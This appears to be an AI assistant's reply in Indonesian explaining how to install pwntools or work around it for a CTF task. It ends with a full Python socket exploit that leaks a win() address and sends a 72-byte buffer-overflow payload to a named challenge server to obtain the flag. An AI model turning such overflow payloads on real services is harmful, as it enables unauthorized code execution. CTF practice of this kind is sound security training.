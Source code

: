 Kalau kamu belum bisa install `pwntools` karena keterbatasan lingkungan, ada beberapa solusi tergantung sistem dan kondisimu. Aku jelaskan beberapa cara:

---

## 🛠️ 1. **Coba pakai Python Virtual Environment**

Kalau sistemmu tidak punya `pwntools` tapi bisa install Python packages, coba:

```bash
sudo apt update
sudo apt install python3 python3-pip python3-venv -y

# Buat virtual environment
python3 -m venv pwnenv
source pwnenv/bin/activate

# Install pwntools
pip install --upgrade pip
pip install pwntools
```

> Kalau berhasil, jalankan semua script eksploitasi dalam venv ini: `source pwnenv/bin/activate`

(below this are unnecessary)
---

## 🧪 2. **Coba di Docker (lebih bersih dan portable)**

Kalau bisa pakai Docker:

```bash
sudo apt install docker.io -y
sudo docker run -it --rm --name pwnbox -v $(pwd):/ctf --workdir /ctf python:3.10 bash

# Di dalam container:
pip install pwntools
```

> Semua script bisa kamu taruh di folder lokal (`$(pwd)`), dan akan muncul di `/ctf` dalam container.

---

## 🔧 3. **Coba manual tanpa pwntools (pakai Python + `socket`)**

Kalau benar-benar tidak bisa install apa pun, kamu masih bisa eksploitasi pakai script Python dasar:

```python
import socket
import time
import struct

def p64(val):
    return struct.pack("<Q", val)  # little-endian 64-bit

s = socket.create_connection(("moklet-sec.site", 10000))

def recv_until(prompt):
    data = b""
    while not data.endswith(prompt):
        data += s.recv(1)
    return data

# Step 1: kirim 'leboy' dan ambil alamat win()
recv_until(b"ask yobel : ")
s.send(b"leboy\n")
leak_line = s.recv(1024).decode()
print("[+] Leak line:", leak_line)
win_addr = int(leak_line.strip(), 16)
print("[+] Win address:", hex(win_addr))

# Step 2: quit dan konfirmasi
recv_until(b"ask yobel : ")
s.send(b"quit\n")
recv_until(b"are you sure Y/N?")
s.send(b"Y\n")

# Step 3: exploit dengan payload overflow
recv_until(b"kata kata sebelum solve bang : ")
payload = b"A" * 72 + p64(win_addr)
s.send(payload + b"\n")

# Step 4: baca output (semoga flag!)
while True:
    try:
        print(s.recv(4096).decode(), end="")
    except:
        break

s.close()
```

> Script ini adalah versi **tanpa pwntools**, pakai `socket` dan `struct` biasa. Tetap bisa jalan asal tahu offset overflow-nya.

---

Kalau kamu pakai distro Linux, distro dan versi berapa? Mungkin aku bisa bantu lebih spesifik untuk setup.
